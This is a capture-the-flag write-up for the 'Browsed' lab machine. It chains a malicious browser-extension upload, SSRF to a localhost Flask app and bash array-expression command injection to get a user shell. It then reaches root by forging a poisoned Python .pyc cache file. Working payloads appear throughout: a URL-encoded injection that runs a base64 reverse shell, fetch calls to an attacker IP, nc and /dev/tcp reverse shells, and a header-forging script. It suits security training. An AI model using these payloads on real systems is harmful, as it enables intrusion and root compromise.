Browsed
Browsed was a medium-difficulty Linux machine that began with an nmap scan revealing SSH on port 22 and HTTP on port 80. The web application hosted an extension upload mechanism that accepted ZIP archives, with a note indicating that someone would run the uploaded extensions. Downloading and inspecting the example extension revealed a standard browser extension structure. Uploading the legitimate example and observing the execution logs exposed an internal hostname, which was added to the hosts file and led to a Gitea instance. Browsing Gitea anonymously revealed a single publicly visible repository for a Flask-based Markdown Previewer. The app exposed a /routines endpoint that passed a parameter directly as an argument to a bash script. The script used the parameter in -eq comparisons across several conditional branches. A known bash trick allowed command injection via array expression syntax, where passing a[$(cmd)] causes bash to evaluate the embedded command before the -eq operator is ever reached, regardless of which branch is taken. Since the Flask app was bound to localhost on port 5000, it was not directly reachable, making SSRF the required approach. The browser extension's manifest permitted content scripts to run on all URLs at document_idle, meaning injected JavaScript would execute across any page the victim visited. A malicious content.js payload was crafted using fetch to reach the internal Flask app at 127.0.0.1:5000/routines/, with the route parameter containing a URL-encoded array expression that decoded and executed a base64-encoded bash reverse shell. Packaging the modified extension as a ZIP and uploading it caused the victim to run it, triggering the SSRF chain and delivering a shell as the user larry.
For privilege escalation, an SSH key was injected into larry's authorized_keys for persistence. Enumeration revealed that larry could run a custom Python script as root via sudo. While the script itself contained no obvious vulnerability, its pycache directory was world-writable. Python validates cached .pyc files against the source file's modification time and size before using them, and if these match, the cached bytecode is executed without recompilation. A malicious extension_utils.py was written containing a reverse shell payload alongside stub implementations of the functions expected by the main script, ensuring the file size matched the original. The file was compiled locally, and its .pyc header was then forged using Python's struct module to replace the magic bytes, null out the flags field to force timestamp-based validation, and inject the real source file's mtime and size as little-endian 32-bit integers. The forged .pyc was copied into the world-writable cache directory, and running the sudo command caused Python to accept the poisoned bytecode and execute the payload as root.
User flag

Initial nmap scan reveals just 2 open ports. SSH on 22, and HTTP on 80.
Recon on the website

There is an upload extension button in the corner, so I'll check it out asap.

It accepts .zip archives for extenions, and mentions that someone will run the uploads. There is also an example page, from which I'll download the first entry.

Pretty standard extension structure. Before doing anything, I'll upload the legitimate one to see what a good result looks like and what it reveals.

Whatever is on the other side, it has successfully installed/used the extension. While scrolling through the logs, I saw the highlighted URL. I will add it to my hosts file right away.
Investigating the source code on Gitea

Under the URL, a Gitea instance is accessible. I don't have any credentials, of course, so I'll just see whether there's any repo that can be viewed by guests/anonymously.

There is a single repo for MarkdownViewer available. The description states:
This webapp allows us to convert our md files to html. Still in developement, it should only run locally !!!
So let's make sure whether the code is following this guideline.
# app.py
from flask import Flask, request, send_from_directory, redirect
from werkzeug.utils import secure_filename
import markdown
import os, subprocess
import uuid
app = Flask(__name__)
FILES_DIR = "files"
# Ensure the files/ directory exists
os.makedirs(FILES_DIR, exist_ok=True)
@app.route('/')
def index():
return '''
<h1>Markdown Previewer</h1>
<form action="/submit" method="POST">
<textarea name="content" rows="10" cols="80"></textarea><br>
<input type="submit" value="Render & Save">
</form>
<p><a href="/files">View saved HTML files</a></p>
'''
@app.route('/submit', methods=['POST'])
def submit():
content = request.form.get('content', '')
if not content.strip():
return 'Empty content. <a href="/">Go back</a>'
# Convert markdown to HTML
html = markdown.markdown(content)
# Save HTML to unique file
filename = f"{uuid.uuid4().hex}.html"
filepath = os.path.join(FILES_DIR, filename)
with open(filepath, 'w') as f:
f.write(html)
return f'''
<p>File saved as <code>{filename}</code>.</p>
<p><a href="/view/{filename}">View Rendered HTML</a></p>
<p><a href="/">Go back</a></p>
'''
@app.route('/files')
def list_files():
files = [f for f in os.listdir(FILES_DIR) if f.endswith('.html')]
links = '\n'.join([f'<li><a href="/view/{f}">{f}</a></li>' for f in files])
return f'''
<h1>Saved HTML Files</h1>
<ul>{links}</ul>
<p><a href="/">Back to editor</a></p>
'''
@app.route('/routines/<rid>')
def routines(rid):
# Call the script that manages the routines
# Run bash script with the input as an argument (NO shell)
subprocess.run(["./routines.sh", rid])
return "Routine executed !"
@app.route('/view/<filename>')
def view_file(filename):
filename = secure_filename(filename)
if not filename.endswith('.html'):
return "Invalid filename", 400
return send_from_directory(FILES_DIR, filename)
# The webapp should only be accessible through localhost
if __name__ == '__main__':
app.run(host='127.0.0.1', port=5000)
This Flask app is running locally on port 5000. I don't immediately see any useful vulnerabilities, but the routines endpoint comments mention a bash script routines.sh, which also happens to be in this repository.
# routines.sh
#!/bin/bash
ROUTINE_LOG="/home/larry/markdownPreview/log/routine.log"
BACKUP_DIR="/home/larry/markdownPreview/backups"
DATA_DIR="/home/larry/markdownPreview/data"
TMP_DIR="/home/larry/markdownPreview/tmp"
log_action() {
echo "[$(date '+%Y-%m-%d %H:%M:%S')] $1" >> "$ROUTINE_LOG"
}
if [[ "$1" -eq 0 ]]; then
# Routine 0: Clean temp files
find "$TMP_DIR" -type f -name "*.tmp" -delete
log_action "Routine 0: Temporary files cleaned."
echo "Temporary files cleaned."
elif [[ "$1" -eq 1 ]]; then
# Routine 1: Backup data
tar -czf "$BACKUP_DIR/data_backup_$(date '+%Y%m%d_%H%M%S').tar.gz" "$DATA_DIR"
log_action "Routine 1: Data backed up to $BACKUP_DIR."
echo "Backup completed."
elif [[ "$1" -eq 2 ]]; then
# Routine 2: Rotate logs
find "$ROUTINE_LOG" -type f -name "*.log" -exec gzip {} \;
log_action "Routine 2: Log files compressed."
echo "Logs rotated."
elif [[ "$1" -eq 3 ]]; then
# Routine 3: System info dump
uname -a > "$BACKUP_DIR/sysinfo_$(date '+%Y%m%d').txt"
df -h >> "$BACKUP_DIR/sysinfo_$(date '+%Y%m%d').txt"
log_action "Routine 3: System info dumped."
echo "System info saved."
else
log_action "Unknown routine ID: $1"
echo "Routine ID not implemented."
fi
This script is vulnerable to command injection. It takes the first argument (rid, known from app.py) and concatenates it into eq operators in this conditional tree. It doesn't matter which one is hit, because they are all vulnerable in the same way.
There is a known trick with array expressions and -eq operators where if we pass a command like a[$(echo hi)] into -eq, bash will first evaluate the expression and execute the command before even touching the operator. I encountered this trick for the first time in the Eureka box, which retired quite a few months ago.
Trying to exploit the SSRF + Code execution chain via extension upload
Knowing that the local app is vulnerable to code injection, my plan looks like this:
-
Craft a JS payload that forces the user to
http://127.0.0.1:5000/routines/{CMD} -
Create a command that will grant me a reverse shell.
First, I'll make sure that fetch works, and that the user can reach my box. I'll modify content.js to contain this small line of code below.
fetch('http://10.10.16.213:8000/hit')

This successfully reaches my listener. Before going further, I'll analyze the manifest.js file to see what limitations have been set for this extension.
{
"manifest_version": 3,
"name": "Font Switcher",
"version": "2.0.0",
"description": "Choose a font to apply to all websites!",
"permissions": [
"storage",
"scripting"
],
"action": {
"default_popup": "popup.html",
"default_title": "Choose your font"
},
"content_scripts": [
{
"matches": [
"<all_urls>"
],
"js": [
"content.js"
],
"run_at": "document_idle"
}
]
}
This essentially means that the loaded scripts (right now content.js) will run on all URLs. Aside from that, the document_idle run setting means that it'll run either after window.onload has fired, or it's been 200ms since DOMContentLoaded has fired.
https://stackoverflow.com/questions/33248629/when-does-a-run-at-document-idle-content-script-run
So that confirms I can execute code in the extensions, no matter which page the user gets shoved into(at least in theory, not taking into account various security principles that could be at play)
The payload I came up with looks like this:
fetch('http://127.0.0.1:5000/routines/a[$(echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMjEzLzkwMDEgMD4mMQo=|base64 -d|bash)]')
And I just URL-encoded everything after the letter a, resulting in the following final payload:
fetch('http://127.0.0.1:5000/routines/a%5B%24%28echo%20YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMjEzLzkwMDEgMD4mMQo%3D%7Cbase64%20-d%7Cbash%29%5D')

Now I'll upload the modified extension, with a netcat listener active on port 9001.

Root flag
I injected an SSH key into Larry's authorized_keys for persistence, prior to doing any recon on the box.

Larry can run a custom Python script as root. I don't see an obvious vulnerability within the script itself, however...

The cache directory is world-writable. This is where Python stores .pyc files containing compiled bytecode of scripts to speed up execution. Being able to write here is an excellent opportunity for escalation.
Creating a malicious Python cache file
import py_compile
import os
f = open("extension_utils.py", "x")
f.write("import os\nos.system('nc -e /bin/sh 10.10.16.213 9001')")
py_compile.compile('extension_utils.py')
os.system('cp __pycache__/extension_utils.cpython-312.pyc /opt/extensiontool/__pycache__')
The idea here is that we're compiling the simple reverse shell script, which will create a .pyc cache. Then this cache gets copied into the world-writable directory.

However, the small cache I've created got overwritten. This is because Python does a few checks to make sure the cache is not "stale", comparing the bytecode against the source's timestamp and size. If these don't match, the old cache gets deleted and recompiled from source.
https://hardsoftsecurity.es/index.php/2026/01/19/python-cache-poisoning-privesc-linux/
import py_compile
import os
import struct
real_path = "/opt/extensiontool/extension_utils.py"
target_pyc = "/opt/extensiontool/__pycache__/extension_utils.cpython-312.pyc"
# 1. Create malicious source
f = open("extension_utils.py", "w")
f.write("""import os
# Payload
os.system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.213/9001 0>&1'")
# Required functions. This also helps with the size check
def get_extensions():
return ['Fontify', 'Timer', 'ReplaceImages']
def validate_extension(ext):
return ext in get_extensions()
def validate_manifest(*args, **kwargs):
return True
def clean_temp_files(*args, **kwargs):
return None
""")
f.close()
# 2. Compile it
py_compile.compile("extension_utils.py")
# 3. Read compiled pyc
with open("__pycache__/extension_utils.cpython-312.pyc", "rb") as f:
data = f.read()
# 4. Get real metadata
st = os.stat(real_path)
mtime = int(st.st_mtime)
size = st.st_size & 0xffffffff
# 5. Forge header
magic = data[:4]
flags = b"\x00\x00\x00\x00"
header = (
magic +
flags +
struct.pack("<I", mtime) +
struct.pack("<I", size)
)
# 6. Combine header + bytecode
final_pyc = header + data[16:]
# 7. Write to target
with open(target_pyc, "wb") as f:
f.write(final_pyc)
print("[+] Poisoned pyc written")
For the first 16 bytes of each .pyc:
[ magic ][ flags ][ mtime ][ size ]
For the header-forging part, we're setting the magic bytes to the correct Python version(in this case, 3.12). Then the flag value is set to null bytes, which means that the validation will be done via timestamps. Hash-based verification would make this exploit much harder to pull off.
As for the last 2 fields in the header, we're converting the numbers into 4-byte little-endian integers:
# Example conversion with struct.pack
1742727379 → d3 e8 df 67
1245 → dd 04 00 00

After running the script and the sudo command, it froze for a bit. And when I looked at my listener tab, I saw a root shell hitting my listener.

Rooted!